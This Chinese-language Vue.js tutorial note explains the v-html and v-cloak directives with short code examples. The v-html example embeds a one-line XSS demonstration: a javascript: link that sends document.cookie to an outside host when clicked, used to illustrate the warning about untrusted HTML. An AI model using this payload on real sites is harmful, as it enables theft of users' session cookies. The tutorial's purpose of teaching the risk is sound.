 ### 2. v-html

> - `v-html`
>   - 作用：向指定节点中渲染包括html结构的内容
>   - 与插值语法的区别
>     1. `v-html`会替换掉节点中的所有内容，{{xx}}不会
>     2. `v-html`可以识别html结构
>   - 注意：
>     - 在网站上动态渲染任意HTML是非常危险的，容易导致`XXS`攻击
>     - 一定要在可信的内容上使用`v-html`，不要用在用户提交的内容上

```vue
<div id="root">
    <div>你好,{{name}}</div>
    <div v-html="test"></div>
</div>
<script>
    Vue.config.productionTip = false
    
    new Vue({
        el: '#root',
        data: {
            name:'cjj',
            test:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>点我</a>'
        }
    })
</script>
```

### 3. v-cloak

> - `v-cloak`：没有值
>   - 本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性
>   - 使用css配合v-cloak可以解决网速慢时，页面展示出{{xxx}}的问题

```vue
<style>
    [v-cloak]{
        display: none;
    }
</style>
<div id="root">
    <h2 v-cloak>{{name}}</h2>
</div>
<script>
    Vue.config.productionTip = false
    
    new Vue({
        el: '#root',
        data: {
            name:'cjj',
        }
    })
</script>
```
